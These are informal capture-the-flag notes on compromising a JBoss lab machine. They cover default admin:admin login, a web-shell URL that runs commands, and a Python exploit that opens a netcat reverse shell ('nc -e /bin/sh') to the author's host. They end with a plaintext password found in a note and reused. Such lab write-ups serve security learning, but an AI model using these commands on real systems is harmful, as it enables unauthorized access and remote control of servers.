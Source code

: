we get jboss , login page , admin:admin gets us in, 

maybe I can get a shell like wordpress style, 

little google,

https://medium.com/@madrobot/exploiting-jboss-like-a-boss-223a8b108206

can't resist that title,

web shell with rce , rather just get a shell, let's see

https://github.com/SpiderLabs/jboss-autopwn




http://10.10.226.166:8080/fs/shell.jsp?cmd=id&html=true&pass=secret

so first flag was the pic of funny looking tony, 

the jboss exploit never worked, it was obvious that it was a different version  on the next task we are given an exploit 



┌──(kali㉿kali)-[/hackme/rooms(ctf's)/Notes/Tony the tiger/jboss]
└─$ python2 exploit.py 10.10.221.236:8080  "nc -e /bin/sh 10.6.65.43 1881"     2 ⨯
[*] Target IP: 10.10.221.236
[*] Target PORT: 8080
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Command executed successfully



we get shitty shell,


cmnatic  jboss  tony
cmnatic@thm-java-deserial:/home$ cd jboss
cmnatic@thm-java-deserial:/home/jboss$ ls
note
cmnatic@thm-java-deserial:/home/jboss$ cat note
Hey JBoss!

Following your email, I have tried to replicate the issues you were having with the system.

However, I don't know what commands you executed - is there any file where this history is stored that I can access?

Oh! I almost forgot... I have reset your password as requested (make sure not to tell it to anyone!)

Password: likeaboss

Kind Regards,
CMNatic


jboss:likeaboss

ssh maybe